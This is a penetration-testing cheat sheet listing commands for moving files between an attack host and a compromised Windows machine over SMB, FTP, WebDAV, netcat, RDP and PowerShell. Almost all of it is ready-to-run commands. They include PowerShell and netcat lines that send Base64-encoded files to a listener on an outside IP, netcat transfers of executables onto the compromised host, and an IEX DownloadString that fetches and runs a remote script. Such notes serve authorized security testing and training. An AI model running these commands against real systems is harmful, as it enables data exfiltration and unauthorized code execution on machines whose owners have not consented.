

### **Uploading files via SMB (no credentials)**

1.  Set up an SMB server  
    `sudo impacket-smbserver hackfast -smb2support .`
2.  Map a network drive  
    `net use z: \\[IP-ADDRESS]\hackfast`
3.  Upload a file via SMB  
    `copy file.txt z:\file.txt`

### **Uploading files via SMB (with credentials)**

1.  Configure the SMB server using impacket-smbserver  
    `sudo impacket-smbserver hackfast $(pwd) -smb2support -user hackfast -password hackfast`
2.  Configure the SMB server using smbserver.py  
    `smbserver.py share . -smb2support -username hackfast -password hackfast`
3.  Map a network drive  
    `net use z: \\[IP-ADDRESS]\hackfast /user:hackfast hackfast`
4.  Upload a file to the mapped drive  
    `copy file.txt z:\file.txt`

### **Uploading files via FTP**

1.  Set up a write-enabled FTP server  
    `sudo python3 -m pyftpdlib --port 21 --write`
2.  Upload a file using PowerShell  
    `(New-Object Net.WebClient).UploadFile('ftp://[IP-ADDRESS]/file.txt', 'C:\Windows\Temp\file.txt')`
3.  Automate FTP upload with a command file  
    
    

### **PowerShell Base64 web upload with netcat**

1.  Encode the file to Base64 (on Windows)  
    ```powershell
    $filePath = 'C:\Windows\Temp\file_name'
    $b64 = [System.Convert]::ToBase64String((Get-Content -Path $filePath -Encoding Byte))
    ```
2.  Start a netcat listener to capture the POST request  
    `nc -lvnp 8080 > received_b64.txt`
3.  Upload the Base64 string via HTTP POST  
    `Invoke-WebRequest -Uri http://[IP-ADDRESS]:8080/ -Method POST -Body $b64`
4.  Decode the Base64 string received via netcat  
    `cat received_b64.txt | base64 -d > file_name`

### **Uploading a file to a remote session**

1.  Create a PowerShell remoting session  
    `$Session = New-PSSession -ComputerName DATABASE01`
2.  Copy a file from the local machine to the remote session  
    `Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`

### **Uploading files via WebDAV**

1.  Install a WebDAV server  
    `sudo pip3 install wsgidav cheroot`
2.  Start the WebDAV server  
    `sudo wsgidav --host=0.0.0.0 --port=8081 --root=/tmp --auth=anonymous`
3.  List directory contents  
    `dir \\[IP-ADDRESS]\DavWWWRoot`
4.  Copy a file to the WebDAV server  
    `copy C:\Temp\file.zip \\[IP-ADDRESS]\DavWWWRoot\`

### **Netcat file upload (sending)**

**On the attack host (listening):**

1.  Using netcat  
    `sudo nc -l -p 443 -q 0 < file_to_send.exe`
2.  Using ncat  
    `sudo ncat -l -p 443 --send-only < file_to_send.exe`

**On the compromised machine (connecting):**

1.  Using netcat  
    `nc [IP-ADDRESS] 443 > received_file.exe`
2.  Using ncat  
    `ncat [IP-ADDRESS] 443 --recv-only > received_file.exe`

### **Uploading a file via RDP (Linux to Windows)**

1.  Using rdesktop  
    `rdesktop [IP-ADDRESS] -u [USERNAME] -p [PASSWORD] -r disk:linux='/home/user/rdesktop/files'`
2.  Using xfreerdp  
    `xfreerdp /v:[IP-ADDRESS] /u:[USERNAME] /p:'[PASSWORD]' /drive:[NAME],[PATH]`

### **Uploading files using PowerShell**

1.  Download and load a PowerShell upload script  
    `IEX (New-Object Net.WebClient).DownloadString('http://[IP-ADDRESS]:8000/PSUpload.ps1')`
2.  Upload a file using the script  
    `Invoke-FileUpload -Uri http://[IP-ADDRESS]:8080/upload -File C:\Windows\Temp\file_name`